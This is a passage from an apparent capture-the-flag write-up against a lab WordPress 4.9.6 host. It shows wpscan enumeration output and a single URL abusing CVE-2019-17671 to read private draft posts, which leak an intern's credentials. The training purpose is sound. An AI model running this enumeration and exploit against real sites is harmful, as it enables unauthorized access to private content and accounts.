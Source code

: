 Default credentials don't work with this site. Since there was a Wordpress site available, we can use `wpscan` for some basic enumeration. There was loads of output, but I found this one vulnerability to be the most interesting for now.

```
$ wpscan --api-token <TOKEN> --url http://192.168.197.174/ --enumerate u,t,p
<TRUNCATED>
[+] WordPress version 4.9.6 identified (Insecure, released on 2018-05-17).
 | Found By: Emoji Settings (Passive Detection)
 |  - http://192.168.197.174/, Match: 'wp-includes\/js\/wp-emoji-release.min.js?ver=4.9.6'
 | Confirmed By: Meta Generator (Passive Detection)
 |  - http://192.168.197.174/, Match: 'WordPress 4.9.6'
 <TRUNCATED>
 | [!] Title: WordPress <= 5.2.3 - Unauthenticated View Private/Draft Posts
 |     Fixed in: 4.9.12
 |     References:
 |      - https://wpscan.com/vulnerability/3413b879-785f-4c9f-aa8a-5a4a1d5e0ba2
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-17671
 |      - https://wordpress.org/news/2019/10/wordpress-5-2-4-security-release/
 |      - https://blog.wpscan.com/wordpress/security/release/2019/10/15/wordpress-524-security-release-breakdown.html
 |      - https://github.com/WordPress/WordPress/commit/f82ed753cf00329a5e41f2cb6dc521085136f308
 |      - https://0day.work/proof-of-concept-for-wordpress-5-2-3-viewing-unauthenticated-posts/
 |
 <TRUNCATED>
```

The rest of the exploits required some form of credentials to exploit, except for this one. To make this work, we just need to visit this site:

```
http://192.168.197.174/?static=1&order=asc
```

The web page then reveals some credentials:

<figure><img src="../../../.gitbook/assets/image (47) (1).png" alt=""><figcaption></figcaption></figure>

We seem to be an intern at Shiftdel, and it coincides with `wpscan` returning `intern` as a valid user:

```
[i] User(s) Identified:

[+] admin
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] intern
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)
```

With these credentials, we can login to the dashboard and begin checking out the other vulnerabilities:
